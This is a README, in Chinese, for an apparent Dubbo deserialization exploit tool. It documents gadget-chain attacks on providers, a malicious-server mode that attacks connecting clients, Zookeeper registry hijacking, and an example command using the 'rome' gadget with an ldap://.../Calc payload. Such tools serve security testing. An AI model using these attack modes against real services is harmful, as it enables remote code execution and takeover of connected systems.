 *工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责*

# Dubbo反序列化测试工具

## 1. 编译&构建
```
mvn assembly:single
```

## 2. 使用帮助
```
usage: java -jar exp.jar [OPTION]
- -h --help               帮助信息
- -l --list             输出所有gadget信息
- -g --gadget <arg>          gadget名称
- -a --args <arg>      gadget入参，多个参数使用多次该命令传入，例-a http://127.0.0.1:80/ -a Calc
- -p --protocol <arg>   [dubbo|http] 通讯协议名称，默认缺省dubbo
- -s --serialization <arg>          [hessian|java] 序列化类型，默认缺省hessian
- -t --target <arg>          目标，例：127.0.0.1:20880
- -f --fastcheck <arg>   快速攻击检查（使用预置参数数据文件，遍历所有gadget进行攻击检查），参数为数据文件路径，参考文件check.data
- -e --evil    恶意服务模式，也就是通过返回恶意序列化数据给客户端，从而攻击连接进来的服务
- -evilHost <arg>    恶意服务ip
- -evilPort <arg>    恶意服务port
- -registry <arg>    [zookeeper]，暂时仅实现了攻击zookeeper，恶意服务模式下，攻击注册中心，控制客户端连接到本恶意服务，也就是通过返回恶意序列化数据给客户端，从而攻击连接进来的服务
- -scheme <arg>      [auth|digest]，zookeeper认证类型
- -username <arg>    [zookeeperUsername]，zookeeper认证账号
- -password <arg>    [zookeeperPassword]，zookeeper认证密码，digest：要对passWord进行MD5哈希，然后再进行bese64
- -registryURL <arg> zookeeper url，例：127.0.0.1:2181
- --wait <arg> 等待客户端回连超时时间，默认1000（毫秒）
```

## 3. example
### 3.1. 特定gadget检测
#### 3.1.1. 主动攻击（攻击服务端provider）
例（测试dubbo默认缺省情况下使用的dubbo协议+hessian2反序列化）：
- target：攻击的目标dubbo provider的ip&port
- protocol：rpc协议
- serialization：序列化协议
- gadget：反序列化利用链
- args：反序列化利用链参数

```
--target
127.0.0.1:20881
--protocol
dubbo
--serialization
hessian
--gadget
rome
--args
ldap://127.0.0.1:43658/Calc
```
